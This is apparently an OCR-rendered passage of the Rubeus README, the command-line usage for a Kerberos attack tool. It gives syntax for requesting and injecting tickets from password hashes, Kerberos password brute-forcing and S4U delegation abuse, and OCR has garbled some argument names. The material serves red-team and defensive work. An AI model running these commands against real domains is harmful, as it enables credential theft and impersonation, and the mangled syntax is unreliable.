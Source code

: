  * [Compile Instructions](#compile-instructions)
 + [Targeting other .NET versions](#targeting-other-net-versions)
 + [Sidenote: Building Rubeus as a Library](#sidenote-building-rubeus-as-a-library)
 + [Sidenote: Running Rubeus Through PowerShell](#sidenote-running-rubeus-through-powershell)
 - [Sidenote Sidenote: Running Rubeus Over PSRemoting](#sidenote-sidenote-running-rubeus-over-psremoting)

## Background

### Command Line Usage

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.5.0


 Ticket requests and renewals:

 Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
 Rubeus.exe asktgt /user:USER </passwordASSWORD [/enctypeES|RC4|AES12AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap]

 Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
 Rubeus.exe asktgt /user:USER </passwordASSWORD [/enctypeES|RC4|AES12AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly\Windows\System32\cmd.exe [/show] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/nowrap]

 Retrieve a service ticket for one or more SPNs, optionally saving or applying the ticket:
 Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/enctypeES|RC4|AES12AES256] [/dcOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]

 Renew a TGT, optionally applying the ticket, saving it, or auto-renewing the ticket up to its renew-till limit:
 Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dcOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/autorenew] [/nowrap]

 Perform a Kerberos-based password bruteforcing attack:
 Rubeus.exe brute </passwordASSWORD | /passwordsASSWORDS_FILE> [/user:USER | /users:USERS_FILE] [/domainOMAIN] [/creduserOMAIN\\USER & /credpasswordASSWORD] [/ou:ORGANIZATION_UNIT] [/dcOMAIN_CONTROLLER] [/outfile:RESULT_PASSWORD_FILE] [/noticket] [/verbose] [/nowrap]


 Constrained delegation abuse:

 Perform S4U constrained delegation abuse:
 Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dcOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]
 Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domainOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dcOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]
